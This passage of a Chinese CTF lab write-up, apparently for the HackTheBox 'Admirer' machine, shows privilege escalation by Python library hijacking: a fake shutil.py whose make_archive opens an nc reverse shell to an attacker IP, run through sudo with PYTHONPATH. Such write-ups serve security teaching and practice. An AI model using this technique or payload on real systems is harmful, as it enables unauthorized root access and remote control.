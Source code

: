 调用了另外一个脚本/opt/scripts/backup.py

查看

```bash
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

脚本同样不能修改，但是python调用了模块，我们可以尝试利用python库劫持的方法。

```bash
mkdir /tmp/evillib
cd /tmp/evillib
vi shutil.py
```

![image-20200625115912024](assets/Admirer_187.assets/image-20200625115912024.png)

```bash
import os
def make_archive(x,y,z):
    os.system("nc 10.10.14.189 1337 -e '/bin/sh'")
```

![image-20200625115759277](assets/Admirer_187.assets/image-20200625115759277.png)

在kali端口1337建立监听，并执行

```bash
sudo PYTHONPATH=/tmp/evillib /opt/scripts/admin_tasks.sh
```

![image-20200625120405933](assets/Admirer_187.assets/image-20200625120405933.png)
